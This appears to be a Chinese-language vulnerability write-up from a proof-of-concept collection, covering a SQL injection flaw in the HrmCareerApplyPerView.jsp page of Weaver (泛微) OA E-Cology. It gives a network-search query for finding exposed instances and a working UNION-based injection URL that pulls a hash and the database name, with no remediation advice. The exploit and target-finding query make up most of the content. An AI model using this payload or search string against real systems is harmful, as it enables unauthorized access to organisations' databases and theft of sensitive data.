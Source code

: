 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220706133317122](./images/202207061333252.png)

验证POC

```
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![image-20220706133435321](./images/202207061334390.png)